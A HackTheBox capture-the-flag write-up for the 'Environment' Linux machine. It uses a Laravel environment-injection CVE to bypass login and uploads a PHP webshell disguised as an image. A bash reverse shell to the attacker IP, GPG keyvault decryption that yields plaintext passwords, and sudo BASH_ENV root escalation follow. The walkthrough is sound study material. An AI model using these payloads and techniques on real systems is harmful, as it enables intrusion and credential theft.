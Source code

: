 ```yaml
---
title: Environment
tags:
  - HackTheBox
  - Easy
  - Linux
  - Laravel
  - CVE
  - File-Upload
  - GPG
  - Sudo-Vulnerability
  - ENV-variables
date: 2025-05-12T00:00:05Z
---
```

![](Pasted%20image%2020250512203410.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.67 environment.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- environment.htb > sC.txt

[redacted]
PORT   STATE SERVICE
```

So I checked its website:

![](Pasted%20image%2020250512203813.png)

I'll perform a scan with [dirsearch 📁](/notes/tools/dirsearch.md):

```shell
dirsearch -u http://environment.htb/

[redacted]
[20:38:37] 403 -  555B  - /%2e%2e;/test                                     
[20:38:43] 403 -  555B  - /admin/.config                                    
[20:38:54] 403 -  555B  - /admpar/.ftppass                                  
[20:38:54] 403 -  555B  - /admrev/.ftppass
[20:39:00] 403 -  555B  - /bitrix/.settings.bak                             
[20:39:00] 403 -  555B  - /bitrix/.settings                                 
[20:39:00] 403 -  555B  - /bitrix/.settings.php.bak
[20:39:01] 301 -  169B  - /build  ->  http://environment.htb/build/         
[20:39:01] 403 -  555B  - /build/                                           
[20:39:15] 403 -  555B  - /ext/.deps                                        
[20:39:16] 200 -    0B  - /favicon.ico                                      
[20:39:22] 200 -    2KB - /index.php/login/                                 
[20:39:26] 403 -  555B  - /lib/flex/uploader/.project                       
[20:39:26] 403 -  555B  - /lib/flex/uploader/.actionScriptProperties
[20:39:26] 403 -  555B  - /lib/flex/uploader/.flexProperties
[20:39:26] 403 -  555B  - /lib/flex/uploader/.settings
[20:39:26] 403 -  555B  - /lib/flex/varien/.actionScriptProperties          
[20:39:26] 403 -  555B  - /lib/flex/varien/.project                         
[20:39:26] 403 -  555B  - /lib/flex/varien/.settings
[20:39:26] 403 -  555B  - /lib/flex/varien/.flexLibProperties
[20:39:27] 200 -    2KB - /login                                            
[20:39:27] 200 -    2KB - /login/                                           
[20:39:28] 302 -  358B  - /logout  ->  http://environment.htb/login         
[20:39:28] 302 -  358B  - /logout/  ->  http://environment.htb/login        
[20:39:29] 403 -  555B  - /mailer/.env                                      
[20:39:46] 403 -  555B  - /resources/.arch-internal-preview.css             
[20:39:46] 403 -  555B  - /resources/sass/.sass-cache/                      
[20:39:46] 200 -   24B  - /robots.txt                                       
[20:39:53] 301 -  169B  - /storage  ->  http://environment.htb/storage/     
[20:39:53] 403 -  555B  - /storage/
[20:39:58] 403 -  555B  - /twitter/.env                                     
[20:40:00] 405 -  245KB - /upload/                                          
[20:40:00] 405 -  245KB - /upload                                           
[20:40:01] 403 -  555B  - /vendor/
```

It outputs a `/login` endpoint:

![](Pasted%20image%2020250512204615.png)

If we capture the request with CAIDO and modify the `remember` parameter we get an error prompted:

![](Pasted%20image%2020250512205512.png)

- Note: *Laravel is being used because of the `laravel_session`*

![](Pasted%20image%2020250512205534.png)

![](Pasted%20image%2020250512205558.png)

Found Laravel version 11.30.0 and PHP 8.2.28.

## Weaponization

I searched for "Laravel 11.30 cve" and found [CVE-2024-52301](https://github.com/laravel/framework/security/advisories/GHSA-gv7v-rgg6-548h) and [PoC](https://github.com/Nyamort/CVE-2024-52301)

Environment Configuration:

The .env file has APP_ENV=development, so by default, the application is set to the development environment.

```html
@production
    <p>Production environment</p>
@endproduction

@env ('local')
    <p>Local environment</p>
@endenv
```

```
**Default Access ([http://localhost](http://localhost/)):**  
Since APP_ENV is set to development and no --env argument is injected, neither the @production nor the @env('local') directive matches.  
**Result**: The output is empty.

**Injected Argument for Production ([http://localhost?--env=production](http://localhost/?--env=production)):**  
With ?--env=production in the URL, $_SERVER['argv'] is manipulated to contain ["--env=production"].  
This triggers Laravel's environment detection mechanism, setting the environment to production.  
Result: The @production directive outputs `<p>Production environment</p>`.

**Injected Argument for Local ([http://localhost?--env=local](http://localhost/?--env=local)):**  
With ?--env=local, $_SERVER['argv'] includes ["--env=local"], changing the environment to local.  
Result: The @env('local') directive outputs `<p>Local environment</p>`
```

## Exploitation

Basically, I can access the app environment without credentials by appending `--env=WHATEVER`:

![](Pasted%20image%2020250512210656.png)

There is an environment called `preprod`, so we can try to render it without credentials:

![](Pasted%20image%2020250512210823.png)

I get access to an admin panel:

![](Pasted%20image%2020250512211329.png)

Then I can upload files to change my profile picture:

![](Pasted%20image%2020250512211401.png)

I'll now test the file extension to upload. I discovered I can upload `.php.`:

![](Pasted%20image%2020250512212016.png)

Now I'll keep the magic numbers `ÿØÿà` and inside of it I'll add a basic php webshell:

![](Pasted%20image%2020250512212245.png)

Then I checked the uploaded file:

![](Pasted%20image%2020250512212635.png)

> Got RCE :D. 

Now, to get a reverse shell I'll use the following payload inside the image:

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.22/666 0>&1'"); ?>
```

![](Pasted%20image%2020250512213145.png)

Then I visit the image uploaded to get the shell:

![](Pasted%20image%2020250512213212.png)

### User flag

![](Pasted%20image%2020250512213446.png)

## Pivoting

I found a `.gpg` inside `/home/hish/backup`:

```shell
# First copy the keys to the tmp directory 
cp -r /home/hish/.gnupg /tmp/mygnupg
 
# Then set up permissions
chmod -R 700 /tmp/mygnupg
 
# Then verify the existance of the private key 
gpg --homedir /tmp/mygnupg --list-secret-keys
 
# Last, decode the keyvault.gpg
gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```

If we inspect the generated file:

```shell
cat /tmp/message.txt 
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

> I got credentials for ssh access: `hish:marineSPm@ster!!`

## Privilege Escalation

If we run `sudo -l`:

```shell
sudo -l

[redacted]
(ALL) /usr/bin/systeminfo
```

So I checked the content of the binary:

```bash
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

As it is a non-interactive binary I can create a bash environment variable that point to an executable to execute it at the beginning of the binary:

```shell
echo 'bash -p' > /tmp/example.sh
chmod +x /tmp/example.sh
sudo BASH_ENV=/tmp/exp.sh /usr/bin/systeminfo
```

### Root flag

![](Pasted%20image%2020250512220100.png)

==Machine pwned!==